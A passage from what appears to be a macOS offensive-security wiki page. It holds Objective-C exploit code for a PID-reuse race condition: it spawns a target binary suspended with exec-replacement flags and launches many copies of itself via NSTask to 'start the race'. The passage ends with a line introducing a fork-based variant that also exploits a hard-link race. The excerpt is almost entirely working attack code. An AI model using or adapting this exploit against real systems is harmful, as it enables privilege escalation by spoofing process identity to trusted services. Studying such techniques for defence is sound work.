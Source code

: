 ```objectivec
    posix_spawnattr_init(&attr);
    short flags;
    posix_spawnattr_getflags(&attr, &flags);
    flags |= (POSIX_SPAWN_SETEXEC | POSIX_SPAWN_START_SUSPENDED);
    posix_spawnattr_setflags(&attr, flags);
    posix_spawn(NULL, target_binary, NULL, &attr, target_argv, environ);
}

bool create_nstasks() {

    NSString *exec = [[NSBundle mainBundle] executablePath];
    NSTask *processes[RACE_COUNT];

    for (int i = 0; i < RACE_COUNT; i++) {
        processes[i] = [NSTask launchedTaskWithLaunchPath:exec arguments:@[ @"imanstask" ]];
    }

    int i = 0;
    struct timespec ts = {
        .tv_sec = 0,
        .tv_nsec = 500 * 1000000,
    };

    nanosleep(&ts, NULL);
    if (++i > 4) {
        for (int i = 0; i < RACE_COUNT; i++) {
            [processes[i] terminate];
        }
        return false;
    }

    return true;
}

int main(int argc, const char * argv[]) {

    if(argc > 1) {
        // called from the NSTasks
        child();

    } else {
        NSLog(@"Starting the race");
        create_nstasks();
    }

    return 0;
}
```
{% endtab %}

{% tab title="fork" %}
This example uses a raw **`fork`** to launch **children that will exploit the PID race condition** and then exploit **another race condition via a Hard link:**
